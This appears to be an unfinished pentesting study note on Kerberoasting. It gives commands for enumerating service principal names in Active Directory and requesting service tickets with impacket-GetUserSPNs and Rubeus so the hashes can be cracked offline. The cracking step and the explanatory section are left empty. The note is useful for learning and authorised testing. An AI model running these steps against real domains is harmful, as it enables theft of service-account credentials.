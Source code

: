 # Kerberoasting (TGS-REP roasting)

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://www.ibm.com/think/topics/kerberoasting" %}

{% embed url="https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-adserviceaccount?view=windowsserver2025-ps" %}

### What is Kerberoasting?





### (1) Retrieve a list of SPNs in the network

1. `Get-ADServiceAccount` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADServiceAccount -Filter 'ServicePrincipalNames -like "*"' | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script

### (2) Retrieve TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate the SPNs and request for the associated TGS all in one command:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

### (3) Perform brute-force cracking on the obtained TGS

{% code overflow="wrap" %}
```powershell
$ hashcat 
```
{% endcode %}



